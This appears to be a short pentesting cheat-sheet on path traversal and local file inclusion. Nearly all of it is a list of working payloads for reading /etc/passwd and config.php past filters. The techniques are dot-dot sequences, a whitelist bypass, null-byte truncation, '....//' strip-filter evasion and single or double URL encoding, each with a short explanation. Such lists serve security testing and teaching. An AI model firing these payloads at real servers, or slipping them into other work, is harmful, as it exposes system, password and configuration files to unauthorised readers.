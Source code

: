 * `/etc/passwd`
* `../../..etc/passwd`
* `language=./languages/../../../../etc/passwd` - bypass whitelist
* %00 - PHP stops reading file path and name, e. g. ../../../etc/passwd%00.php
* ....//....//....//etc/passwd - to bypass auto replace
* double URL encode, whole URL or just . / symbols
#### Obfuscation
1. **URL Encoded Bypass:** The attacker can use the URL-encoded version of the payload like `?file=%2e%2e%2fconfig.php`. The server decodes this input to `../config.php`, bypassing the filter.
2. **Double Encoded Bypass:** The attacker can use double encoding if the application decodes inputs twice. The payload would then be `?file=%252e%252e%252fconfig.php`, where a dot is `%252e`, and a slash is `%252f`. The first decoding step changes `%252e%252e%252f` to `%2e%2e%2f`. The second decoding step then translates it to `../config.php`.
3. **Obfuscation:** An attacker could use the payload `....//config.php`, which, after the application strips out the apparent traversal string, would effectively become `../config.php`.
